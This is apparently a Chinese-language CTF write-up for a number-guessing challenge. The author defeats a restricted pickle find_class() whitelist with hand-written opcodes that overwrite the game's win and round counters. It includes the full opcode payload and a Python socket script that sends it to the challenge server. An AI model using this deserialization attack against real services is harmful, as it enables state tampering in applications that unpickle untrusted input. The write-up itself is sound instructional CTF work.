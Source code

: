 ![image-20210809130400358](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809130400358.png)

是个猜数游戏，交互逻辑在init.py, Game.py和Ticket.py中，10以内的数字需要猜对10次（全胜）才会返回flag

然后是game_client.py

![image-20210809130523878](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809130523878.png)

接收数字的输入作为参数生成Ticket对象，序列化后发送到server端

再看game_server.py，用了重写了的`find_class()`

![image-20210809130933730](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809130933730.png)

这个限制的意思是导入的模块只能以guess_name开头并且名字里没有`__`

大概看完了流程，接下来找找突破口——序列化时是生成一个Ticket的实例

![image-20210809132300981](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809132300981.png)

判断输赢则是需要Game辅助

![image-20210809132437175](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809132437175.png)

结合game_server.py的判断条件，拿到flag需要`self.win_count == max_round == 10`

那么构造的方向有了——修改相关参数做到变量覆盖，再以序列化的opcode形式传过去。手写opcode面临的问题就是重写`find_class()`后对加载指定模块的限制，而这里我们可以看到`__init__.py`中`game = Game()`，所以直接可以通过`guess_game.game`引入`Game()`类，然后修改类中的win_count和round_count就能做到变量覆盖；第二要注意必须手写opcode，如果是先`from guess_name import game`，然后修改参数后再dump，则是在运行时重新新建一个Game对象，就不是从guess_game这个module中获取，破坏上下文；第三要注意

![image-20210809140423900](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809140423900.png)

pickle序列化流执行完会把栈顶的值返回，所以栈顶需要设为Ticket，这里可以dumps一个Ticket，然后拼到之前手写的opcode之后

opcodes:

```python
# 修改win_count = 10和round_count = 9，传过去之后执行一次round_count += 1就能全胜
cguess_name
game
}S"win_count"
I10
sS"round_count"
I9
sbcguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x06sb.
# c之后是被find_class()监控的区域，拼接Ticket
```

```python
import socket
import struct

s = socket.socket()
s.connect(('node4.buuoj.cn', 28803))

exp = b'''cguess_game
game
}S"win_count"
I10
sS"round_count"
I9
sbcguess_game.Ticket\nTicket\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00numberq\x03K\x06sb.'''

s.send(struct.pack('>I', len(exp)))
s.send(exp)

print(s.recv(1024))
print(s.recv(1024))
```